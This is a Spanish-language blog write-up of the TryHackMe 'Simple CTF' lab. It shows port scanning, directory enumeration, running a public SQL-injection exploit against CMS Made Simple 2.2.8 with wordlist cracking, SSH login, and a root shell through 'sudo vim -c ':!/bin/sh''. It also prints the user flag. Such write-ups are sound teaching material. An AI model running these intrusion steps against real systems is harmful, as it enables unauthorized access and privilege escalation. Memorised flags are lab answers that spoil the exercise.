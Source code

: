 ```yaml
---
layout: single
title: Simple CTF - TryHackMe
excerpt: " Simple CTF is just that, a beginner-level CTF on TryHackMe that showcases a few of the necessary skills needed for all CTFs to include scanning and enumeration, research, exploitation, and privilege escalation. "
date: 2022-09-18
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-simplectf/simplectf.png
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:  
  - sqli
  - cmsmadesimple
  - ssh
---
```


Simple CTF is just that, **a beginner-level CTF on TryHackMe that showcases a few of the necessary skills needed for all CTFs to include scanning and enumeration, research, exploitation, and privilege escalation**.

# Summary
- IP: 10.10.129.26
- Ports: 21,80,2222
- OS: Linux (Ubuntu)
- Services & Applications:
	-  21 -> vsftpd 3.0.3
	-  80 -> Apache httpd 2.4.18
	-  2222 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

# Recon

- Escaneo básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.129.26 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$sudo nmap -p21,80,2222 -sCV 10.10.129.26 -oN targeted
```


- Buscamos vulnerabilidades en las aplicaciones encontradas, ftp no nos da nada, la página no contiene nada relevante; hacemos escaneo de directorios con gobuster:

```bash
$gobuster dir -u http://10.10.129.26/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt
```


- Encontramos un directorio "simple", lo analizamos y encontramos una app web con su version, buscamos vulnerabilidades para la misma:

```bash
$searchsploit CMS Made Simple 2.2.8
```


- Encontramos una vulnerabilidad SQLi, exportamos la script de python y la ejecutamos

```bash
$python2.7 46635.py -u http://10.10.129.26/simple/ --crack -w /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt
```


- Obtenemos credenciales e intentamos conectarnos por ssh:

```bash
ssh mitch@10.10.129.26 -p 2222
```


- Encontramos la user flag:
# USER FLAG: G00d j0b, keep up!

- Buscamos binarios con permisos de sudoers:

```bash
mitch@machine:/$sudo -l
```


- Vemos que podemos ejecutar como sudoer el binario "vim", el cual buscamos en gtfobins para poder escalar privilegios:
```bash
sudo vim -c ':!/bin/sh'
```

- Encontramos la root flag:
# ROOT FLAG: ***********************
